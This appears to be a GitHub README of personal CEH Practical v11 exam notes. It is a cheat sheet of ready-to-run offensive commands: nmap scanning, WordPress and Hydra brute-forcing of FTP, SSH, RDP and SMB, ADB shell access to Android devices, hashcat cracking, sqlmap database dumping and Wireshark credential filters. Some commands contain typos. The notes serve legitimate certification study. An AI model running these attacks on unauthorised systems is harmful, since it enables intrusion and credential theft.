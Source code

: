 # Practicemyself

# ........................................................ CEHvs11 ............................................

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.


### Marks:

I will update soon --->


So let's start >>>>>>

### 1. Find the IP target.
 ```
  $ ip addr or
  $ ifconfig
  $ netdiscover -r IP/24
  $ netdiscover  (If not found $ apt-get install netdiscover)
  $ netdiscover -i eth0   (confirm from ifconfig which net/wifi using)
  
 May be IP targets are same. For me, this is the IP (172.16.0.0/24) for my target.
 ```
### 2. Nmap scan all
  ```
  $ nmap IP -sV -sC -p -O -oN output.txt
  
  -iL=import IPs,  --top-ports 1000
  ```
### 3. IPs Service, RDP(3389), SQL(3306), FTP(21) check
 ```
  $ nmap -Pn -p 3389 IP | grep open
  $ nmap -Pn -p 3306 IP | grep open
  $ nmap -Pn -p 21 IP | grep open
  ```
### 4. Windows Comman Line
  $ Net user

### 5. Wordlist location find
 ```
  $ locate wordlists
  $ locae rockyou.txt
```
### 6. WP scan (Wp Vulnerability)
```
  $ wpscan --url IP --enumerate u
  $ wpscan --url IP -u root -P passwdfile.txt
  
  --enumerate p, -U username, -P password, --usernames userlist.txt, --passwords passwdlist.txt
  
 I was faced problems with WP Scanner to bruteforicing, I recommend to use Metasploit for bruteforcing in Wordpress passwod.
 keep it mind:- Password wordlist are like same but try to find exact password lists.
  
 Using Metasploit==>
 => msfconsole 
use axiliary/scanner/http/wordpress_login_enum
PASS_FILE /root/Desktop/wordlists/Pass.txt
set RHOSTs IP
set RPORT PORT
set TARGETURI http://IP:port
set USERNAME admin
->run
```
### 7. Hydra
``` 
 Use for FTP:
     $ hydra -l user -P passlist.txt ftp://IP
 Use for SSH:
     $ hydra -l <username> -P passwdlist.txt IP -t 4 ssh
 Use for Web Post:
     $ hydra -l <username> -P <wordlist> 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

- hydra -L usernames.txt -P pass.txt <IP> mysql
- hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
- hydra -V -f -L <userslist> -P <passwlist> ***rdp***://<IP>`
- hydra -P common-snmp-community-strings.txt target.com snmp
- hydra -l Administrator -P words.txt 192.168.1.12 smb t 1
```

### 8. FTP
```
FTP Connect
  $ ftp IP
  
  After connect with FTP go to the file
  $ get file.txt
  $ get file1.txt

When I was first connect from the parot server, I did'nt get the file. So I have connected from winodws machine, then i had got the file easily.   
 
https://www.javatpoint.com/ftp-commands
https://www.serv-u.com/linux-ftp-server/commands
```
### 10. Android
```
  $ netdiscover -r IP/24   (got final IP)
  $ nmap IP -sV -p 5555
  
  apt install adb (if not available
  Command:
  $ apt connect IP:5555
  $ adb shell
  pwd > ls > cd sdcard > ls > cd downloads > cat file.txt
```
### 11. Stegnography
  ```
  $ Snow.exe -C -p “given_password” file_name.txt
  -C  compressing / uncompressing
  -p  password

  Open Stego (GUI tool):
     Open the exe > open and select file > click get
 ```
### 12. Cryptography
```
#### Identify:
https://hashes.com/en/tools/hash_identifier
https://www.onlinehashcrack.com/hash-identification.php
https://www.tunnelsup.com/hash-analyzer
#### Crak hash:
https://hashes.com/en/decrypt/hash
https://crackstation.net

  $ hash-identifier  ->Enter and paste the hash.
  $ Hashcat -a 3 -m 900 hash.txt /rockyou.txt
  -a attack mode (3)
  -m hashtype (select number fom below)
   900 = md4
   1800 = SHA512CRYPT
   110  = SHA1 with SALT HASH
   0  = MD5
   100 = SHA1
   1400 = SHA256
  ``` 
## 13. Used Tools
```
Veracrypt = Encryt / Decrypt the Hidden Disk 
Cryptool
Snow
Bctextencoder
Md5 hash calculator
Wpscan
Nmap
Metasploit
Hydra
Wireshark
OWASP ZAP  
RDP
```
### 14. Command Injection (DVWA)
```
DVWA:
Path: C:\wamp64\www\DVWA\hackable\uploads\maybefile

View a file cmd: "type"
Decrypt - https://hashes.com/en/decrypt/hash
```
### 15 SQL Injection with SQLmap:
  ```
  $ sqlmap -u http://site.com?id=1 --cookie="cookies" --risk 3 --level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/?id=1&Submit=Submit" --cookie="cookies1;cookies2" --data="data" --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -u "http://site.com/sqli/cookies.php" --cookie="cookies1;cookies2" --data="data" -p id --risk 3 -level 5 --dbms=mysql --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump
```
### 16. Wireshark
```
Filters:
To find DOS (SYN and ACK) : tcp.flags.syn == 1, tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
     Shortcut: Click tools > Credentials

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
```

